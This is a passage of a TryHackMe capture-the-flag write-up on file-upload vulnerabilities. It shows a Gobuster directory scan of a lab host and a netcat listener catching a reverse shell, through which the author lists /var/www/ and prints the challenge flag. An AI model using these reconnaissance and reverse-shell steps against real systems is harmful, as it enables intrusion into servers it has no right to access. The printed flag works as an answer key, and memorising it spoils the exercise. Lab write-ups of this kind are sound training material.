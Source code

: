 Navigate to `shell.uploadvulns.thm` and complete the questions for this task.

1. Run a Gobuster scan on the website using the syntax from the screenshot above. What directory looks like it might be used for uploads? (N.B. This is a good habit to get into, and will serve you well in the upcoming tasks...)

```
kali@kali:~/CTFs/tryhackme/Upload Vulnerabilities$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://shell.uploadvulns.thm
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://shell.uploadvulns.thm
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/09 00:19:21 Starting gobuster
===============================================================
/resources (Status: 301)
/assets (Status: 301)
Progress: 16032 / 220561 (7.27%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/11/09 00:20:13 Finished
===============================================================
```

[http://shell.uploadvulns.thm/resources/](http://shell.uploadvulns.thm/resources/)

2. Get either a web shell or a reverse shell on the machine. What's the flag in the /var/www/ directory of the server?

```
kali@kali:~/CTFs/tryhackme/Upload Vulnerabilities$ nc -lnvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.5.136 35392
Linux f300b6aced54 4.15.0-109-generic #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 23:20:38 up 33 min,  0 users,  load average: 0.05, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cd /var/www/
$ ls
flag.txt
html
$ cat flag.txt
THM{YWFhY2U3ZGI4N2QxNmQzZjk0YjgzZDZk}
```

## Task 6 Filtering

